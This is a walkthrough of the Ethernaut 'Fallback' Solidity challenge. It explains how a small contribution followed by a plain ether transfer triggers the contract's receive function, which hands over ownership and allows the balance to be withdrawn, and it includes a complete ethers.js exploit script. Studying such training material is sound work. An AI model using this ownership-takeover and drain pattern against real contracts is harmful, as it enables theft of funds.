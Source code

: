 ```yaml
---
description: >-
  In Ethernaut's Fallback, we get some practice walking through Solidity
  contract logic and are introduced to the concept of "fallback" functions.
---
```


# 1 - Fallback

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) is to claim ownership of the `Fallback` contract and reduce its balance to zero.

### Hints

<details>

<summary>Hint One</summary>

Before we can withdraw funds, we must first become the contract's `owner`. Where in the code is the owner variable first assigned? Where is it reassigned? When it is reassigned, what conditions need to be met that would result in `msg.sender` becoming the `owner`? Could we construct a series of transactions to meet these conditions?

</details>

<details>

<summary>Hint Two</summary>

We can become the contract `owner` by triggering its `receive` function after making an initial transaction via the `contribute` function to satisfy the second part of its `require(msg.value > 0 && contributions[msg.sender] > 0);` condition. The `receive` function is a special "fallback" function in Solidity. How is it triggered?

</details>

### Full Walkthrough

#### Claiming Ownership

The contract's `owner` is set by its constructor to the address from which it was deployed. There are only two sections of the code in which the owner may be reassigned. The first, within the `contribute` function, is a dead end. This is because it requires the sender's contributions to be greater than the owner's, while the constructor has already set the owner's contribution to 1,000 ether (line 13: `contributions[msg.sender] = 1000 * (1 ether);`) and the `contribute` function limits each of the player's contributions to < 0.001 ether.

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The second section of the code in which the contract owner may be reassigned is found within the `receive` ("Receive Ether") function.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive` function checks first that the value of the transaction is non-zero, and that the contributions of the sender address are non-zero, before reassigning the `owner` to `msg.sender`. This means we may pass this `require` condition by first sending a small transaction via the `contribute` function (< 0.001 ether), then by sending a second transaction of any non-zero value to the contract address with empty calldata to trigger its `receive` function.

{% hint style="info" %}
**Fallback Functions**

Solidity (version 0.6.x+) contracts may contain two special "fallback" functions, `receive` and `fallback`:

* **receive** is triggered when a contract receives a transaction with empty calldata.
* **fallback** is triggered when no other function (not even `receive`) matches.
{% endhint %}

#### Reducing Balance to Zero

Once the owner address is set to the player's address, we may call the `withdraw` function directly as the `require` condition of the `onlyOwner` modifier has now been satisfied.

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and 
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    provider,
    playerWallet,
    playerWalletSigner,
    contract: fallbackContract,
  } = await setup('Fallback')

  // Contribute 0.0001 ether via Fallback contract's 'contribute' function
  const contributionValue = ethers.utils.parseEther('0.0001')
  console.log(
    `Sending Fallback 'contribute' ${contributionValue.toString()}...`
  )
  await fallbackContract
    .contribute({
      value: contributionValue,
    })
    .wait(1)

  // Confirm contribution via Fallback contract's 'getContribution' function
  console.log(
    `Current contribution: ${await fallbackContract
      .getContribution()
      .toString()}`
  )

  // Send ether to Fallback contract address ('receive' function)
  console.log(
    `Sending ${contributionValue.toString()} to Fallback contract address...`
  )
  await playerWalletSigner
    .sendTransaction({
      to: process.env.CONTRACT_ADDRESS,
      value: contributionValue,
      gasPrice: 20000000000,
    })
    .wait(1)

  // Check current Fallback contract 'owner'
  const fallbackContractOwner = await fallbackContract.owner()
  console.log(`Fallback contract 'owner' is now: ${fallbackContractOwner}`)

  if (fallbackContractOwner === playerWallet.address) {
    console.log('Player is contract owner.')

    // Withdraw funds via Fallback contract's 'withdraw' function
    console.log('Withdrawing contract balance...')
    await fallbackContract.withdraw().wait(1)

    // Check new Fallback contract balance
    const contractBalance = await provider.getBalance(
      process.env.CONTRACT_ADDRESS
    )
    console.log(`Contract balance is now: ${contractBalance.toString()}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Solidity contains two special **fallback functions**. One of which, **receive**, is triggered when a contract receives a transaction with empty calldata.

